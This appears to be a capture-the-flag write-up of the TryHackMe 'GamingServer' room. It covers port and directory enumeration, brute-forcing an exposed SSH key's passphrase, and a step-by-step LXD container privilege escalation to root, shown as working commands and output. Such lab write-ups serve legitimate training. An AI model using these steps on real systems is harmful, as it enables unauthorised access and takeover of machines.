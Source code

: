 ```yaml
---
layout: post
title:  "THM - GamingServer Writeup"
date:   2022-09-11
author:
  - Mario Raciti
tags: ctf offensive vapt
---
```


The aim of this room is to gain access to a gaming server built by amateurs with no experience of web development and to take advantage of the deployment system.
<!-- readmore -->

There is only one task, indicating that we have to get two flags: `user_flag` and `root_flag`. So without any further ado, let's begin our game!

> TryHackMe CTF Room: <https://tryhackme.com/room/gamingserver>

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 17:09 CEST
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.10.26.252
Host is up (0.078s latency).
Not shown: 921 closed ports, 77 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.45 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

Thus, we can guess that a candidate username for an SSH login could be `john`.

Now let's give a look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

user-agent: *
Allow: /
/uploads/
```

We can see the `/uploads` endpoint, so let's investigate about:

```
GET http://$IP/uploads/

dict.lst 2020-02-05 14:10 2.0K  
manifesto.txt 2020-02-05 13:05 3.0K  
meme.jpg 2020-02-05 13:32 15K  
```

The `dict.lst` file seems to contain a password list. Maybe this list could be used to bruteforce the SSH login.

### Gobuster

Before going ahed, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.26.252
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/31 17:44:37 Starting gobuster
===============================================================
/secret (Status: 301)
/uploads (Status: 301)
===============================================================
2020/08/31 17:45:03 Finished
===============================================================
```

As we can see, the tool found only two directories: `/secret` and `/uploads`. We already checked the latter, so we can concentrate our analysis on the `/secret` endpoint:

```
GET http://$IP/secret/

secretKey 2020-02-05 13:41 1.7K
```

Bingo! We got a private RSA SSH key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

*******************************************
***********CENSORED_EH_EH******************
*******************************************
-----END RSA PRIVATE KEY-----
```

## SSH Dictionary Attack

The SSH RSA private key is encrypted, so we have to crack the password. To this purpose, we can surely use the `dict.lst` list that we found previously. Note that this operation can be performed by using our old friend JohnTheRipper, but in this case I preferred to use the SSHAttacker Python script - source is available [here](https://github.com/forScie/SSHAttacker) - to think *out of the box*. Before starting the cracking process, I just added the `key_name='rsa_id'` parameter to the connect method in the script, in order to adapt it to our use case:

```python
line 36    ssh.connect(target, port=int(float(port)), username=user, password=password, key_filename='./rsa_id')
```

At this point, we can simply run SSHAttacker with `dict.lst` as password list:

```
...
[-] Attempt n-1: ***censored*** ... Unsuccessful
[-] Attempt n: ***password_eheh*** ... Bingo!

[!] SUCCESS! Creds: john@10.10.165.124:22 Password: ***password_eheh***
```

We got the password and, after logging in via SSH, we can finally retrieve the user flag:

```sh
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
***user_flag***
```

## Privilege Escalation

Now we have to elevate our privileges in order to get the root flag. We can just scp and run the [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) script in the VM to look for something interesting.
I firstly noticed that there is a weird link in a `/usr/bin/at` binary. But it was a joke just as `/usr/bin/pkexec`, another potential way to elevate our privileges. Both refers to CVEs which can be exploited by using a C executable, FYI.

At this point, I was looking for the right way to perform a privilege escalation. We can notice that the user john is in the lxd group:

```sh
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We can exploit this fact because LXD containers run with root privileges in most cases. Therefore, the exploit consts of mounting the file system in a container, so that we can have access to it. For more information, you can read [this article](https://www.hackingarticles.in/lxd-privilege-escalation/). In our case, we can use the alpine image:

```sh
attacker@machine:~$ git clone https://github.com/saghul/lxd-alpine-builder.git
attacker@machine:~$ cd lxd-alpine-builder/
attacker@machine:~$ sudo ./build-alpine -a i686
```

Now we have to move the `alpine-v3.12-i686-20200901_1306.tar.gz` archive to the victim machine:

```sh
attacker@machine:~$ scp -i rsa_id alpine-v3.12-i686-20200901_1306.tar.gz john@10.10.170.65:/home/john/
```

Eventually, all we have to do is to just add the image as follows:

```sh
john@exploitable:~$ lxc image import alpine-v3.12-i686-20200901_1306.tar.gz --alias exploit_image
Image imported with fingerprint: dc53ca24314f0dee7e940d9e9519215a725b761e8e6ad98
john@exploitable:~$ lxc image list
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
|     ALIAS     | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE         |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
| exploit_image | dc53ca24314f | no     | alpine v3.12 (20200901_13:06) | i686 | 3.07MB | Sep 1, 2020 at 1:17pm (UTC) |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
```

We can now run the container from the `exploit_image` image:

```sh
john@exploitable:~$ lxc init exploit_image ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite my_device disk source=/ path=/mnt/root recursive=true
Device my_device added to ignite
john@exploitable:~$ lxc start ignite
john@exploitable:~$ lxc exec ignite /bin/sh
~ # whoami
root
```

And voilà!

The root flag can be retrieved by going to the mounted path `/mnt/root/root`:

```sh
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
***root_flag***
```

---

### That's all folks

You can find the files related to this CTF at <https://github.com/tsumarios/CTF-Writeups/tree/master/THM/GamingServer>.
